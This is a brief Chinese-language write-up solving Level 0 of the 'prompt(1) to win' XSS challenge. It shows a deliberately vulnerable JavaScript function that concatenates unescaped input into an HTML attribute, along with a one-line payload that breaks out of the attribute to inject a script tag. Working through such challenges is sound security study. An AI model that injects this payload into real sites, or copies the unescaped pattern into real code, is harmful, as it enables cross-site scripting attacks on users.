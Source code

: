 ## [[prompt(1) to win](http://prompt.ml)] [[Level 0 - warm up](http://prompt.ml/0)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3613/)]

------

## 题目

```javascript
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}
```

------

## 解题报告

水题。直接闭合双引号和标签即可注入。

payload : `"><script>prompt(1)</script>`

![](http://exp-blog.com/wp-content/uploads/2019/03/ce464cfe08916a3488b01d603044f324.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
